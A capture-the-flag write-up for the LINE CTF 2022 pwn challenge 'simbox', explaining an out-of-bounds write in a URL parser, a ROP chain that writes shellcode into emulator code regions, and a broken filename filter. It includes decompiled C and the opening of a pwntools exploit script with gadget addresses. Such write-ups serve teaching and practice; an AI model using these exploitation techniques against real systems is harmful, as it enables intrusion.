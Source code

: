 ```yaml
---
title: "2022 linectf writeup"
date: 2022-03-27T18:00:00+09:00
summary: "pwn - simbox, song"
categories:
  - ctf-writeups
---
```


Played as a `donkey` :)

## simbox

First, there is no parameter index check in simbox's parse_url function, so oob write is possible.

Binary is emulated in arm-run.  In emulating, the permission setting of each segment is ignored. That is, writing is possible in the code segment, etc.

The first thing to do is to overwrite the stack via oob and do a ROP. Call the read function via ROP, overwriting arbitrary code regions with shellcode.

After that, it's a bypass of the filtering added to the ReadFileName function, but...

```c
  while ( 1 )
  {
    v9 = v6 + v7++;
    Byte = ARMul_SafeReadByte(state, v9);
    *(v7 - 1) = Byte;
    if ( !Byte )
      break;
    if ( v7 == v5 )
    {
      *OSptr = cb_host_to_target_errno(sim_callback, 36);
      result = 0xFFFFFFFFLL;
      state->Reg[0] = -1;
      return result;
    }
  }
  if ( strstr(buf, "flag") || (v12 = strstr(buf, "simbox"), result = 0LL, v12) )
  {
    *OSptr = cb_host_to_target_errno(sim_callback, 36);
    result = 0LL;
    state->Reg[0] = -1;
  }
```

Since result is not set to -1, ReadFileName is treated as a normal termination. That means the filtering doesn't work.

So just read the flags.

```python
from pwn import *

p = remote('35.243.120.147', 10007)
#p = process(['./arm-run','./simbox'])

pay = 'http://a.com/qwer?'
for i in range(73):
  pay += 'list=&'

pay += 'list=79&'

mov_r1_r5_pop_r4_r5_pc = 0x00012e38
pop_r0_pc = 0x000135f0
```